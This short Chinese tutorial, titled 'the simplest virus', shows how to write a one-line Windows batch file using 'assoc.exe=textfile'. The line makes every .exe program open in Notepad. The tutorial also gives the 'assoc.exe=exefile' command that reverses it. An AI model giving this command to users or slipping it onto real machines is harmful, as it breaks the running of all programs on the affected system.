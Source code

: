 # 最简单的病毒

1. 新建文本档

2. 输入：

   ```
   assoc.exe=textfile
   ```

3. 修改拓展名为bat

效果：将所有的exe程序编程记事本打开的程序。

解决方法：

​	输入：

```
assoc.exe=exefile
```

将exe改回原来的exe，并使用同样的方法运行。